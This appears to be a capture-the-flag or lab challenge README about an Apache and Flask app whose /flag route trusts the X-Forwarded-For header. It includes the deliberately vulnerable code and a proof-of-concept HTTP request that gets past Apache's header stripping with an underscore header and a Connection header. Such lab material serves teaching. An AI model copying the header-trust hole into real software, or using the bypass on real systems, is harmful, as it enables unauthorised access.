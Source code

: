 ### Apache + Flask

Add 'RequestHeader unset X-Forwarded-For' to httpd.conf

'x-forwarded-for' Must be equal to '127.0.0.1'

Try to access /flag from 127.0.0.1

### Usage

Build and run
```
docker-compose up
```

### Hint
httpd.conf
```
RequestHeader unset X-Forwarded-For
```

Go http://127.0.0.1:8089/

app.py
``` python
@app.route('/flag')
def flag():

    src_ip = None
    if 'x-forwarded-for' in request.headers:
            src_ip = request.headers['x-forwarded-for']

    if src_ip is None:
        src_ip = request.remote_addr

    if src_ip == '127.0.0.1':
        return open('flag','r').read()
    else:
        return 'IP From %s is forbidden' % src_ip
```

### POC
Use Burp to send the request.
```
GET /flag HTTP/1.1
Host: 127.0.0.1
X-Forwarded_For: 127.0.0.1
Connection: X-Forwarded-For


```
